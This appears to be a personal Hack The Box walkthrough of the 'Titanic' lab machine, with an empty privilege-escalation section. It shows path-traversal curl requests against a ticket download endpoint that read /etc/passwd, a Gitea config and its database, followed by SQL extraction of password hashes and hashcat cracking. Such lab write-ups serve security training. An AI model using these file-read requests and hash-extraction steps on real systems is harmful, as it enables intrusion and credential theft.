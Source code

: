 
2025-03-19 22:57

Source: #htb #Boot2root 

rustscan shows port 80 and 22

add to `etc/hosts` 
```sh
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```
### Enumeration

The website only has one button that is interactable i.e. validate trip. When we validate a trip, we download the ticket 

The request when captured on burp looks like 
```
GET /download?ticket=random-int.json HTTP/1.1
```
since the ticket reading functionality is not implemented securely, [[LFI]] we can replace the name of the ticket file with the one we want to read. For example `/etc/passwd` 

- we see a user named developer
- we can directly read the `user.txt` flag by replacing ticket parameters value to `/home/developer/user.txt`

since ssh key files aren't readable we read the `etc/hosts` and see a subdomain  - `dev.titanic.htb` - 
after adding this to our `etc/hosts` file and visiting the website we see This subdomain has `gitea` on it

browsing around in `gitea` we see an explore tab, it has 2 repos 
From the `docker-compose.yml` file we find out the path to the `gitea` directory

Searching on the web we find that the default config files of `gitea` are stored in `config/app.ini`

Pull out the default config via LFI

```sh
curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'
```

From the configure we find out the path to the database
```sh
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Open `gitea.db` in SQLite:
```
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```

We retrieve a hashed password (and salt) for the `developer` user.

The hash can’t be directly cracked by [[Hashcat]],  convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script to format it:

```sh
hashcat -m 10900 gitea_hash.txt rockyou.txt
```
### Privesc




### References
https://app.hackthebox.com/machines/648
https://www.pentestnotes.ru/en/writeups/hackthebox/titanic-htb-writeup/